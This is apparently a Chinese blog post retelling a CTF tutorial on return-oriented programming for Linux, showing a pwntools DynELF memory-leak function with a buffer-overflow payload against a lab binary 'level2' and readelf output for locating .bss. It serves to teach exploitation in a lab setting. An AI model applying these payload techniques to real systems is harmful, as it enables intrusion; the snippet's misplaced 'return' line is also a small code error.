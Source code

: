 ```yaml
---
title: 一步一步学ROP之Linux_x64篇-蒸米
date: 2018-05-11
categories:
- 备份
tags:
- CTF
- Pwn
- ROP
- Linux
permalink: 一步一步学ROP之Linux_x64篇-蒸米
---
```

> 这篇博客记录我跟着蒸米大神的文章一步一步学ROP之Linux_x64学习ROP的过程。在进行复现的时候，遇到了一些问题，文章中会提到。


### 0x00 序

`ROP`的全称为Return-oriented programming（返回导向编程），这是一种`高级的内存攻击技术`可以用来`绕过`现代操作系统的各种通用`防御`（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击。

一步一步学ROP之linux_x86篇 http://drops.wooyun.org/tips/6597

在这次的教程中我们会带来上一篇的补充以及`linux_x64`方面的ROP利用方法，欢迎大家继续学习。

另外文中涉及代码可在我的github下载：

<div class="github-widget" data-repo="zhengmin1989/ROP_STEP_BY_STEP"></div>

### 0x01 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

注意，这一节是上一篇文章的补充，还是讲的`x86`的ROP。上次讲到了如何通过ROP绕过x86下`DEP`和`ASLR`防护。但是我们要事先得到目标机器上的`libc.so`或者具体的`linux版本号`才能计算出相应的`offset`。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过`memory leak(内存泄露)`来搜索内存找到`system()`的地址。

这里我们采用`pwntools`提供的`DynELF`模块来进行内存搜索。首先我们需要实现一个`leak(address)`函数，通过这个函数可以获取到某个地址上`最少1 byte的数据`。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：

``` python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```


随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对DynELF模块进行`初始化`了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中`system()在内存中的地址`。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串`“/bin/sh”`在内存中的地址。所以我们在payload中需要调用`read()`将“/bin/sh”这字符串写入到程序的`.bss段`中。.bss段是用来保存全局变量的值的，`地址固定`，并且`可以读可写`。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。

``` bash
$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
……
```
